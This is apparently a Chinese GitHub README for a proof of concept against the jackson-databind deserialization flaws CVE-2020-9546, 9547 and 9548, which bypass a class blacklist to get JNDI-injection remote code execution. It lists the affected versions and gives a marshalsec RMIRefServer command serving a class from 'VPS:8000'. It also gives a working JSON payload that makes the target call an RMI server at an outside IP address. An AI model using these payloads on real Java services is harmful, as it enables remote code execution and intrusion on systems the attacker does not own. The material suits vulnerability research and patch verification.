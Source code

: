 

## 概述

FasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

三个利用链皆是黑名单绕过，在反序列化期间触发其指定的方法，最终实现JNDI注入远程代码执行。


![](1.jpg)


## 影响版本

2.0.0 <= FasterXML jackson-databind < 2.9.10.4

https://github.com/Fasterxml/jackson-databind/releases

https://github.com/FasterXML/jackson-databind/issues/2634


## 下载jar包

如果在git上源码无法用mvn编译成功，可以直接在mvn仓库下载jar包。

https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.10.3/jackson-databind-2.9.10.3.jar

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099

## CVE-2020-9547

依赖下面这2个jar

![](CVE-2020-9547-2.jpg)

效果：

![](CVE-2020-9547.jpg)

## CVE-2020-9548

环境，jdk1.8 , 1.7会提示 jar包最低适配版本1.8

依赖下面这三个jar,现实盲打难度大

![](CVE-2020-9548-2.jpg)

效果：

![](CVE-2020-9548.jpg)

## CVE-2020-9546      03/01/2020   +调试

漏洞公告: https://nvd.nist.gov/vuln/detail/CVE-2020-9546

https://www.findjar.com/ 这个网站可以找到一些jar,

未找到 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig  class

后来经过大佬提醒(https://github.com/fairyming/CVE-2020-9547/issues/1),是这个jar -> hadoop-client-minicluster-3.2.1.jar ,这我怎么可能找到嘛:) 暂不知道如何根据 class 名找到 jar包名，估计就是根据相关开发人员经验，2是mvn仓库搜包名一个一个试吧。


payload1:

	payload1 = "[\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",   {\"metricRegistry\":\"rmi://114.116.253.148:1099/TouchFile\"}]";
		
完整payload 见 Main.java

![](CVE-2020-9546.jpg)


根据git修改的补丁文件位置：

src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java

![](2.jpg)

得知黑名单类为  SubTypeValidator.java ，加断点**调试**

![](3.jpg)

<br/>

![](4.jpg)

<br/>

绕过黑名单以后，调用远程RMI/LDAP服务器，可见**黑名单是不安全的处置方法。**

![](5.jpg)


## 参考资料

[CVE-2020-9546/7/8：FasterXML/jackson-databind 远程代码执行漏洞处置通告](https://www.anquanke.com/post/id/200010)


[官方mvn仓库](https://mvnrepository.com/)
